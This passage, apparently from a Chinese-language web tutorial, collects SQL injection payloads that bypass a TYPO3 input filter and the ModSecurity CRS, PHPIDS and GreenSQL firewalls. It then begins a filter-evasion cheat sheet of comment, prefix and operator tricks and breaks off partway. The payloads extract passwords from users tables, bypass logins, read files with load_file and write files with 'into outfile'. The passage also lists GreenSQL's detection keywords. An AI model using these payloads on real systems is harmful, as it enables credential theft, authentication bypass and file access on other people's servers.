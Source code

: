 #### 3. TYPO3 CMS

<pre class="highlight">$val = str_replace(array("'"," ","("),"",$arrFields[$fname]); // basic defence
</pre>
Bypass:
<pre class="highlight">vuln.php?id=1/**/union%a0select/**/1,pass,3`a`from`users`
</pre>

### b) WAF绕过示例

#### 1. ModSecurity CRS 2.0.9

<pre class="highlight">1'and 0x61=(/*foo*/SELECT mid(pass,1,1) from users limit 1,1)and'1
1'union/*!select*/pass,load_file(0x123456789)from users-- -
</pre>

#### 2. PHPIDS 0.6.4

<pre class="highlight">foo'!=@a:=0x1 div'1a false != true 　　//auth bypass
foo'div count(select`pass`from(users)where mid(pass,1,1)rlike lower(conv(10,pi()*pi(),pi()*pi())) )-'0
a'in(true) and false */*!(true)union#newline select pass`alias`from users where true*/* n'1
</pre>

#### 3. GreenSQL 1.3.0

检测关键字：`union, information_schema, into outfile, current_user, current_date, version`

检测函数：`mid(), substring(), substr(), load_file(), benchmark(), user(), database(), version()`
<pre class="highlight">adm' 'in' or 1='1        // auth bypass
'-(1)union(select table_name,load_file('/tmp/test'),@@version
from /*! information_schema.tables */);%00    //select union
'-'' into%a0outfile '/tmp/test   //write to file
</pre>

### c) SQLi Filter Evasion Cheat sheet

<pre class="highlight">#注释
' or 1=1#
' or 1=1/* (MySQL &lt; 5.1)
' or 1=1;%00
' or 1=1 union select 1,2 as `
' or#newline
' /*!50000or*/1='1
' /*!or*/1='1

#前缀
+ – ~ !
' or –+2=- -!!!'2

#操作符：
^, =, !=, %, /, *, &amp;, &amp;&amp;, |, ||, , &gt;&gt;, &lt;=, &lt;=, ,, XOR, DIV, LIKE, SOUNDS LIKE, RLIKE, REGEXP, LEAST, GREATEST, CAST, CONVERT, IS, IN, NOT, MATCH, AND, OR, BINARY, BETWEEN, ISNULL
